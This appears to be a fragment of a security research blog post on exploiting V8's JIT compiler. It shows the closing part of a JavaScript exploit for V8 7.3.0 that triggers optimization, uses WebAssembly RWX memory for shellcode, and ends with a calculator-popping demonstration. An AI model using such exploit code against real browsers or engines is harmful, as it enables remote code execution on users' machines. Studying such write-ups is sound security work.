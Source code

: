 ```javascript

    print(res);

  }
  return leak;
}

(() => {
  assert(this.alert, undefined); // only v8 is supported
  assert(this.version().includes("7.3.0"), true); // only tested on version 7.3.0
  // exploit is the same for both windows and linux, only shellcodes have to be changed 
  // architecture is expected to be 64 bits
})()

// needed for RWX memory

load("wasm.js");

opt_me("");
for (var i = 0; i < 0x10000; ++i) // trigger optimization
  opt_me("");
let res = opt_me("foo");
```

![pwnd](/images/swimming-in-a-sea-of-nodes/pop_calc.gif)

# Conclusion
